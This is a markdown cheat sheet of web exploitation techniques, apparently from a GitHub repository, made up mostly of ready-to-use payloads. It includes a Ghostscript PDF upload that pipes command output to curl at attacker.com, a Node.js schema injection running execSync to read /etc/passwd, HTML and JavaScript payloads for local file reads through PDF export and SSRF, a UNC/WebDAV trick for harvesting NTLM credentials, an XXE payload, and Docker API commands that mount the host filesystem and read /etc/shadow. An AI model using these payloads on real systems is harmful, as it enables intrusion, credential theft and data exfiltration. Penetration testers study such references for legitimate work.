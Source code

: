# Web Exploitation Methods

## Enumeration

### HTTP PROBE using cURL

```
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### PHP Disabled Function Check

```
<?php var_dump(explode(',',ini_get('disable_functions'))); ?>
```

## Exploitation

### PDF RCE

[https://www.openwall.com/lists/oss-security/2018/08/21/2](https://www.openwall.com/lists/oss-security/2018/08/21/2)

```
Content-Disposition: form-data; name="fileToUpload"; filename="pwn.pdf"
Content-Type: application/pdf

%!PS
currentdevice null true mark /OutputICCProfile (%pipe%curl http://attacker.com/?a=$(whoami|base64) )
.putdeviceparams
quit
```

### Node.JS JSON Validation Command Injection (RCE)

```
// https://hackerone.com/reports/894308
const schema = {
  type: 'object',
  properties: {
    'x[console.log(process.mainModule.require(`child_process`).execSync(`cat /etc/passwd`).toString(`utf-8`))]': {
      required: true,
      type:'string'
    }
  },
}
```

### PDF Export Injection / HTML Injection / Server Side Request Forgery (SSRF) Local File Read

#### Using HTML

##### iframe

```
<iframe src="file:///C:/windows/system32/drivers/etc/hosts height=1000 width=1000/>
```

Via [securityonline.info](https://securityonline.info/export-injection-new-server-side-vulnerability/)

##### object

```
<object data=”http://127.0.0.1:8443”/>
```

##### link

```
# local file read
<link rel=attachment src="file:///etc/passwd">
# to extract
pdfdetach -saveall vuln.doc
```

#### Using Javascript

```
<script>x=new XMLHttpRequest; 
x.onload=function(){ document.write(this.responseText) }; 
x.open("GET","file:///etc/passwd"); x.send(); </script> 
```

Via [noob.ninja](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) 

#### object

```
<html>
  <body>
    <object data="file:///etc/passwd"/>
  </body>
</html>
```

#### portal

```
<html>
  <body>
    <portal src="file:///etc/passwd" id=portal></portal>
  </body>
</html>
```

#### Harvesting Credentials

UNC + WebDav can be used to harvest NTLM on arbitrary ports allowed through the firewall.

```
# WebDav HTTP UNC Path
\\workstation1@8080\mdsec.png
```

- Source: https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/

### XXE

- [XXE inside a SOAP node](https://twitter.com/agarri_fr/status/656440244116574208?lang=en):

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://0x0:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### Misc

Docker API (2375/tcp) Easy RCE by PTSwarm

```
# exploit
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

# file access
cat /mnt/etc/shadow

# RCE
chroot /mnt
```